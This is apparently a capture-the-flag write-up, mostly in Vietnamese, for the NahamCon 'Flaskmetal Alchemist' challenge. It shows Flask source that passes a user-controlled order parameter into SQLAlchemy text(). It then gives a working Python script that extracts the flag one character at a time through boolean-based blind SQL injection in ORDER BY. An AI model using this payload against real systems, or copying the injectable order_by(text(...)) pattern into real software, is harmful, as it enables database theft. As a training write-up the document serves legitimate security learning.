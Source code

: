 # nahamcon CTF - Flaskmetal Alchemist

SQL injection SQLAlchemy via text() function

## Description
Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

Source-code: `fma.zip`

## Solution

### Review

![1](https://user-images.githubusercontent.com/71699412/167264396-56409af9-a175-439e-996a-28cc39964199.jpg)


Chall cho 1 website có thể tra cứu các nguyên tố hóa học cùng với thanh tìm kiếm, thanh này còn có thêm order by để sắp xếp kết quả trả về theo thứ tự như Name, Symbol hay Atomic Number.

Source-code: `app.py`
```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)

```
Nhìn kĩ ta thấy điều bất thường là khi ta có sử dụng `order` param, query sẽ gồm method `.order_by()` pass hàm `text()` chứa param `order`. Qua tìm hiểu, hàm `text()` trong `sqlalchemy` là hàm thực hiện truy vấn nhận argument là 1 query string như các hệ SQL phổ biến khác thay vì cấu trúc như thường của nó là dùng `object-relational mapping(ORM)`, tức query bằng cách gọi các `object`, phù hợp cho lập trình hướng đối tượng.

Tham khảo: https://www.tutorialspoint.com/sqlalchemy/sqlalchemy_core_using_textual_sql.htm#:~:text=SQLAlchemy%20lets%20you%20just%20use,to%20the%20database%20mostly%20unchanged

Như bạn đã biết, exploit SQLi bằng `order by` này không thể tấn công bằng `union attack` nên ta nhận định đây là dạng SQL injection boolen based via order by.
### Exploit

Ta tạo python script brute force thôi:

```python
import requests
import string

url = 'http://challenge.nahamcon.com:32714/'
characters = '_' + string.ascii_lowercase + string.digits + '}'

flag = 'flag{'
for i in range(30):
	for c in characters:
		data = {
			'search': '',
			'order': f'(SELECT CASE WHEN (select SUBSTR(flag,{len(flag)+1},1) from flag limit 1)="{c}" THEN "name" ELSE "atomic_number" END)'
		}

		r = requests.post(url, data=data)
		print('[-] - trying: ' + c)
		if '89' in r.text[2575:2544+137]:
			flag += c
			print('[+] - found: ' + flag)
			break

# name: Atomic Number: 89
# atomic_number: 3 
```

Ta ghép sql IF statement vào, thử điều kiện đúng sai trả về order by name/atomic_number, từ thứ tự khác biệt trả về, ta có thể brute force ra flag.

![Screenshot 2022-05-08 000216](https://user-images.githubusercontent.com/71699412/167264435-228c9758-0903-4ce7-be95-a1a4f842558e.jpg)

**Flag**: `flag{order_by_blind}`
